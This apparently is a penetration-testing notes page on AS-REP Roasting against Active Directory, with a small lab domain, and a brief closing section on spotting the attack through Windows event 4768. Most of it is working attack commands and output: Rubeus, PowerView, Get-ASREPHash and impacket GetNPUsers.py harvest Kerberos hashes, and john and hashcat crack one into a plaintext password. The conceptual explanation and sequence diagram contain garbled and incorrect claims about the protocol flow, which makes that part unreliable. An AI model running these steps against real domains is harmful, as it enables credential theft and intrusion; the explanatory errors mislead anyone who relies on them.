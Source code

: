 # AS-REP Roasting Attack

> Windows 2008 R2

## Introduction

AS-REP Roasting is an attack against authentication using the Kerberos protocol, with the aim of exploiting Kerberos vulnerabilities to obtain user credentials in the Active Directory.

Kerberos is a network authentication protocol used to securely verify users and services on computer networks. The Kerberos protocol uses tickets to verify user identity. In Active Directory, user credentials include a password hash and an AES key for KERBEROS.

AS-REP Roasting exploits a vulnerability in the Kerberos protocol, which allows attackers to collect AS-REP responses by sending invalid authentication requests (AS-REQ) in certain circumstances. The AS-REP response contains the user's encrypted AES key, **which attackers can use to crack the password hash and obtain user credentials**.

```mermaid
sequenceDiagram
    participant Attacker
    participant DomainController
    participant Victim

    Attacker ->> DomainController: 发送无效身份验证请求（AS-REQ）
    DomainController -->> Attacker: 发送身份验证错误（KRB5KDC_ERR_PREAUTH_REQUIRED）
    Attacker ->> Victim: 发送AS-REQ请求，请求不需要预身份验证
    Victim -->> Attacker: 发送AS-REP响应，包含用户加密的AES密钥
    Attacker ->> DomainController: 使用加密的AES密钥尝试破解密码散列
    DomainController -->> Attacker: 发送密码散列

```



## Environment Setup

If the domain user has the option "**Do not require Kerberos preauthentication**" set, **this option is typically not enabled by default**.

![image-20220701171152441](../../.gitbook/assets/image-20220701171152441.png)

![image-20220701172115379](../../.gitbook/assets/image-20220701172115379.png)



## 漏洞利用

### rubeus

To obtain a hash using Rubeus.exe

```css
Rubeus.exe asreproast
```

![image-20220701172146854](../../.gitbook/assets/image-20220701172146854.png)



### powershell

To find users in the domain who have "Do not require Kerberos preauthentication" 

```powershell
 Import-Module .\powerview.ps1
 Get-DomainUser -PreauthNotRequired
```

![image-20220701172830454](../../.gitbook/assets/image-20220701172830454.png)

To obtain the hash returned by AS-REP, use `ASREPRoast.ps1` in Markdown format.

```powershell
PS C:\> Get-ASREPHash -UserName hacker -Domain sectest.com
$krb5asrep$hacker@sectest.com:d0a157853391aab1e8e01bc686fb163a$809336bab609b5471e00dfd086ec87a1b2dcaa329c36753a0da5ecba
7c360e3aefb21c07a363139c9f0aeff96da09345137fc6b2a4320cec2be50a7a1f91548881c933f968657018c29fab4f7c370d48ad1bf4484164dfc
0435b1a6ca8313280d1b8c854da0e97191a35b94e2065020e2712b9ae9ed11b4be4c8d0d213c8dd8e462c1c2192b9e3904bc1ccea93e956cbcb442d
72d9e1fbacc81a261482e08a601c82b7927bc15e8ec2fd36725bc4d7a50a2a7519000896a7205ab87890584076a14c818f185ff206f2fb957324ec3
d591e2e623d1a14d5732fced962db9d5fcfae397c7bcb4ead5e5608
PS C:\>
PS C:\>
PS C:\> Get-ASREPHash -UserName administrator -Domain sectest.com
$krb5asrep$administrator@sectest.com:ba6badff514dd32e51a8375d59d3b4fd$4b19d25ec755b55a6c350740d6b7e91b3d980ae234ba5721b
d81177e0f5ad065a248dae0b9a2ca7968d8dd6238c1771c1376445296e8fc3c10ec1323b23bc76438b8ffff191e2da0961e47216caa5e3b3372d9d7
71bdf037c62c10ddbc9ed87cc4097539c14b74eea80b35ae0817953da40c0e8bf8fd12543db6753b0a4b0c007aa04090f7d0c88625ba4d200bba287
b98d6048544c35717d0571d6e121aebf613f240fbbd053d11f97aae1bf28473431addc504ce97d291a633f09a301d5e97c21220d2261de0beab1339
2512134d77ac292bf3af0adc3d864db4b9c8f0460754aab44c45863aa95e7a
PS C:\>
```



### impacket

User Brute-Forcing

```sh
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest.com/ -usersfile /tmp/user.txt  
```

![image-20220701175412792](../../.gitbook/assets/image-20220701175412792.png)

Obtaining Ticket Information for a Specific User

```sh
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest/administrator -no-pass -dc-ip 192.168.32.144 -request                                                                                                                                        
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for administrator
$krb5asrep$23$administrator@SECTEST:7a5b7de0d5af4a66f5ee83a3eb48b726$e6c5ea6fb79ea8154a25f7ba4b0f12c265f7c2f10ef2591cba1ccdb1b42bc38f39dde177ac87da7dc9c66c90966afd12a7a131c817ce5f84b57312f5b846b5bc86a516a982ca438a6a4914d5c9220cbded7a5cf05ddf374f5cf3b3e735046e510bd688db79fde9ed15601e52d9991a21fc758b634df9932ace8839da67fbf36bbb670158005beac9a1b65806964f104accf99065edf74c80c113ced5fa13fb11a54e1eaf33f4ffbad561891d66917b4b728838b01e3469aed2c54f6c99c0aca879f24f92f8ccb703b69cd5bd9f6507a89be384297881d037550066a88a38d9bd7ad71b1006dc
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest/hacker -no-pass -dc-ip 192.168.32.144 -request                                                                                                                                                  
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for hacker
$krb5asrep$23$hacker@SECTEST:a7b9a372f2e3a0fa7568e860797ae62b$bd120f6279317280bf9e3b949cbac5b30bb3734926a9a13edd3dee5028b718541a938963f5279bac3f92c64eeb88c7255b3f2dac60106ac14abfe0bb4f43dbe7ec4e91a8ed7703049620e6e79bdb23451cf631694c27a9e88ee8433c0bda6bd1da67064d90d576e8bcecdef3fecb1ba14ac3c3acc4a35ca76bd34e4f7fee122378ed77f49b6ec452183f5b4462e03e565da49bd62227065c87b20293c5f2156a143e3b4a2902c8da7193131b7fa061426004dec87d6ddb0bc3fced9b3fd135aa0dbde8acdb76b45dd54e0f41db10792775cd0a6d98d35fbed53022fb6439aff534406491213b

```



# Hash Cracking

### john

```sh
┌──(root💀kali)-[/tmp]
└─# john --wordlist=password.txt hash.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcABC123        ($krb5asrep$23$hacker@SECTEST.COM)
1g 0:00:00:00 DONE (2022-07-01 05:58) 10.00g/s 701890p/s 701890c/s 701890C/s punkey..pinkk
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

### hashcat

```sh
┌──(root💀kali)-[/tmp]
└─# hashcat -a 0 -m 18200 hash.txt password.txt --force  
```

![image-20220701175918090](../../.gitbook/assets/image-20220701175918090.png)

## Log Analysis

Windows event ID 4768 is the event ID for the Kerberos authentication service, which is used to record events of Kerberos authentication requests. This event ID usually does not indicate an attack by itself, but if you notice an abnormal amount or unauthorized Kerberos authentication requests, it may indicate an attack.

![image-20230227143142069](../../.gitbook/assets/image-20230227143142069.png)

![image-20230301093355379](../../.gitbook/assets/image-20230301093355379.png)
